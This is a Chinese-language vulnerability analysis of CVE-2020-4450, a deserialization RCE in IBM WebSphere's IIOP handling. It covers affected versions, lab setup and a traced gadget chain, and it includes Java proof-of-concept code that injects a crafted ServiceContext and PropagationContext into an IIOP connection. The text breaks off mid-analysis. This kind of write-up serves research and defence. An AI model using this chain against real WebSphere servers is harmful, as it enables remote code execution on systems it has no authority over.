- [CVE-2020-4450 IBM WebSphere 反序列化代码执行漏洞](#cve-2020-4450-ibm-websphere-反序列化代码执行漏洞)
  - [影响范围](#影响范围)
  - [环境搭建](#环境搭建)
  - [原理分析](#原理分析)
    - [ServiceContext](#servicecontext)
    - [PropagationContext](#propagationcontext)
    - [WSIFPort\_EJB](#wsifport_ejb)
    - [EJSWrapper](#ejswrapper)
    - [EntityHandle#getEJBObject()](#entityhandlegetejbobject)
    - [RMI Bypass](#rmi-bypass)
      - [WSIFServiceObjectFactory#getObjectInstance](#wsifserviceobjectfactorygetobjectinstance)
    - [createOperation](#createoperation)
  - [漏洞复现](#漏洞复现)
  - [补丁](#补丁)
  - [参考](#参考)

# CVE-2020-4450 IBM WebSphere 反序列化代码执行漏洞
## 影响范围
* WebSphere Application Server: 9.0.0.0 to 9.0.5.4  
* WebSphere Application Server: 8.5.0.0 to 8.5.5.17
* WebSphere Application Server: 8.0.0.0 to 8.0.0.15
* WebSphere Application Server: 7.0.0.0 to 7.0.0.45
## 环境搭建
1. 注册下载install manager https://www.ibm.com/support/pages/installation-manager-and-packaging-utility-download-documents. 
2. 添加存储库地址 https://www.ibm.com/software/repositorymanager/V9WASILAN.
3. 安装9.0.0.2版本测试.
4. 安装完成后执行概要管理工具创建一个WebSphere服务.
5. 创建后登录在控制台安全性->全局安全性->RMI/IIOP 安全性->出入站通信中将CSIv2传输层从SSL改成TCP.
6. 在服务器->WebSphere Application Server->其他属性->调试服务->勾选在服务器启动时启用服务(默认在7777端口监听)开启调试.
## 原理分析
### ServiceContext  
根据zeroday的描述,在IBM WebShpere处理IIOP协议的信息时使用的拦截器类`TxServerInterceptor`中存在反序列化,在处理中调用到`TxInterceptorHelper.demarshalContext`方法时会经过一系列流程到达`inputObjectUsingClassDesc`方法中调用`readObject()`触发反序列化.  
  
从该方法中可以到看到要调用`TxInterceptorHelper.demarshalContext`之前还需要满足`validOtsContext`为true.  
  
也就是发送的通过IIOP协议发送的数据中的`ServiceContext`对象和`ServiceContext`对象`context_data`要不为空.  
在zeroday的文章中没有说怎么满足该条件,但iswin的文章中给了一种思路.  
建立IIOP连接初始化`Context`后,用反射从`Context`中可以获取到该次连接的GIOP对象,该对象有一个`getConnection`方法可以获取到本次连接的`Connection`对象实例.  
  
而`Connection`对象就有一个`setConnectionContexts`方法来设置本次连接的`ServiceContext`了.  
而`ServiceContext`的构造方法如下.
  
具体的实现代码如下
```java
javapackage org.example;

import com.ibm.CORBA.iiop.ClientDelegate;
import com.ibm.CORBA.iiop.IOR;
import com.ibm.CORBA.iiop.ORB;
import com.ibm.WsnOptimizedNaming._NamingContextStub;
import com.ibm.rmi.Profile;
import com.ibm.rmi.ServiceContext;
import com.ibm.rmi.iiop.Connection;
import com.ibm.rmi.iiop.GIOPImpl;
import com.ibm.ws.naming.jndicos.CNContextImpl;
import com.ibm.ws.naming.util.WsnInitCtx;
import org.omg.CORBA.portable.ObjectImpl;

import javax.naming.Context;
import javax.naming.InitialContext;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.ArrayList;
import java.util.Properties;

public class Main {
    public static void main(String[] args) throws Exception {
        Properties env = new Properties();
        env.put(Context.PROVIDER_URL, "iiop://192.168.18.4:2809");
        env.put(Context.INITIAL_CONTEXT_FACTORY, "com.ibm.websphere.naming.WsnInitialContextFactory");
        InitialContext initialContext = new InitialContext(env);
        initialContext.list("");
        Field f_defaultInitCtx = initialContext.getClass().getDeclaredField("defaultInitCtx");
        f_defaultInitCtx.setAccessible(true);
        WsnInitCtx defaultInitCtx = (WsnInitCtx) f_defaultInitCtx.get(initialContext);
        Field f_context = defaultInitCtx.getClass().getDeclaredField("_context");
        f_context.setAccessible(true);
        CNContextImpl _context = (CNContextImpl) f_context.get(defaultInitCtx);
        Field f_corbaNC = _context.getClass().getDeclaredField("_corbaNC");
        f_corbaNC.setAccessible(true);
        _NamingContextStub _corbaNC = (_NamingContextStub) f_corbaNC.get(_context);
        Field f__delegate = ObjectImpl.class.getDeclaredField("__delegate");
        f__delegate.setAccessible(true);
        ClientDelegate clientDelegate = (ClientDelegate)f__delegate.get(_corbaNC);
        Field f_ior = clientDelegate.getClass().getSuperclass().getDeclaredField("ior");
        f_ior.setAccessible(true);
        IOR ior = (IOR) f_ior.get(clientDelegate);
        Field f_orb = clientDelegate.getClass().getSuperclass().getDeclaredField("orb");
        f_orb.setAccessible(true);
        ORB orb = (ORB)f_orb.get(clientDelegate);
        GIOPImpl giopimpl = (GIOPImpl) orb.getServerGIOP();
        Method getConnection = giopimpl.getClass().getDeclaredMethod("getConnection", com.ibm.CORBA.iiop.IOR.class, Profile.class, com.ibm.rmi.corba.ClientDelegate.class, String.class);
        getConnection.setAccessible(true);
        Connection connection = (Connection) getConnection.invoke(giopimpl,ior,ior.getProfile(),clientDelegate,"nbxiglk");
        Method setConnectionContexts = connection.getClass().getDeclaredMethod("setConnectionContexts", ArrayList.class);
        setConnectionContexts.setAccessible(true);
        byte[] result = new byte[]{00,00};
        ServiceContext serviceContext = new ServiceContext(0,result);
        ArrayList var4 = new ArrayList();
        var4.add(serviceContext);
        setConnectionContexts.invoke(connection,var4);
        initialContext.list("");
    }
}
```  
这样就能到达`TxInterceptorHelper.demarshalContext`方法了.

### PropagationContext
来到`demarshalContext`方法后需要进入`propContext.implementation_specific_data = inputStream.read_any();`流程,但在之前会有一些对数据包的解析过程,需要构造一个合法的数据流,不然会抛异常.  
  
而构造一个可以解析的合法数据包的思路則是去看看对应的数据包装过程,其`marshalContext`方法的过程如下.  
  
进入`inputStream.read_any()`后一直来到`TCUtility#unmarshalIn`方法,其中我们需要进入`case 30`中的这个`org.omg.CORBA_2_3.portable.InputStream#read_value()`方法中.  

根据其传入的参数可以看到只有当var1=29或30的时候就会调用var0的read_value()方法.  
  
根据`TxInterceptorHelper.demarshalContext`解析的过程就可以知道`inputStream.read_any()`方法就是在解析我们在构造PropagationContext对象时的传入的Any对象,而var0其实就是该Any对象内部的complexValue属性对象的EncoderInputStream,而var1就是该属性对象的类型,根据switch条件语句中,其调用的不同的`read_`方法其实在AnyImpl类中都有对应的insert方法.  
  
所以我们只需要在Any对象中调用`insert_value`方法就可以设置complexValue属性为一个序列化的对象,就可以使在解析any对象时调用var0对象的read_value方法,也就是可以进入到`org.omg.CORBA_2_3.portable.InputStream#read_value()`方法中了.  
修改代码,加入调用`insert_value()`加入一个HashMap,重新构造`propagationContext`.  
```java
        HashMap<Object, Object> hashMap = new HashMap<>();
        CDROutputStream outputStream = ORB.createCDROutputStream(orb);
        outputStream.putEndian();
        Any any = orb.create_any();
        any.insert_Value(hashMap);//调用insert_Value插入一个序列化对象.
        PropagationContext propagationContext = new PropagationContext(0,
                new TransIdentity(null,null, new otid_t(0,0,new byte[0])),
                new TransIdentity[0],
                any);
        PropagationContextHelper.write(outputStream, propagationContext);
```  
这样便会调用到`org.omg.CORBA_2_3.portable.InputStream`的`read_value()`方法,此时var1的值为29.  
  
在之后会有一系列调用最终来到`IIOPInputStream#invokeObjectReader()`方法中并在启动会通过`var1.readObjectMethod.invoke(var2, this.readObjectArglist);`反射来调用我们传入的序列化对象的readObject()方法.  

可以看到这里会调用HashMap的readObjcet()方法.  
堆栈调用如下  

### WSIFPort_EJB
现在成功到达反序列化触发点后就需要一条可以利用的链,因为WebShpere在ClassLoader中将一些常见利用链的类加入了黑名单,所以无法直接使用常见的Gaget,而漏洞作者則是找到了一个可以新利用的类`WSIFPort_EJB`.
其`readObject()`方法如下:  
  
其中会依次读取ois的对象,当读取的对象继承于`Handle`类时就会执行该`Handle`对象的`getEJBObject()`方法.  
而在`WSIFPort_EJB`的序列化方法`writeObject()`中可以看到Handle对象是从`fieldEjbObject`属性指定的对象`getHandle()`方法返回.
  
### EJSWrapper
而从`fieldEjbObject`属性的类型为`EJBObject`类型.  
  
在这里可以使用其一个稍微简单点的子类`EJSWrapper`.
### EntityHandle#getEJBObject()  
而在EntityHandle类中其`getEJBObject()`存在一个JNDI注入的Sink.  
  
可以看到其从`homeJNDIName`指定的地址获取到一个EJBHome对象,然后调用该对象的`FindByPrimaryKey`方法.  
所以我们可以通过实现一个`EJSWrapper`子类,重写其`getHandle()`方法,让其返回EntityHandle对象,这样就能到达该Sink点.
### RMI Bypass
正常情况下到lookup的时候就可以利用JNDI注入来RCE了,但在WebSphere中其默认JDK为高版本的JDK,这里使用的绕过高版本JDK进行JNDI注入的方法則是通过加载本地的factory,然后利用该factory的`getObjectInstance`方法来构造恶意对象进行RCE.  
而漏洞作者找到的可利用的本地factory則是`org.apache.wsif.naming.WSIFServiceObjectFactory`.
#### WSIFServiceObjectFactory#getObjectInstance
  
在`WSIFServiceObjectFactory#getObjectInstance`方法中我们看到可以根据指定的ref引用去获取一个对象,当ref引用为`WSIFServiceRef`类型时返回一个`WSIFService`对象,当ref引用为`WSIFServiceStubRef`类型时,其会通过得到的`WSIFService`对象获取一个指定Class name的`stub Object`,最后返回的是一个Object对象,而在之前的Sink点我们看到其lookup之后有一个强制转换要求得到的对象为`EJBHome`类型,因为第一种方式返回的类型为`WSIFService`,而第二种方式可以得到指定Class Name的Object,所以这里我们只能使用第二个方式.而我们指定的Stub对象也必须要是EJBHome的子类,含有findFindByPrimaryKey方法，并且参数是Serializable类型,满足该条件的类則是`com.ibm.ws.batch.CounterHome`.  
  
那么我们
而在`WSIFService#getStub`方法中,其会调用`WSIFClientProxy`类创建一个代理类. 
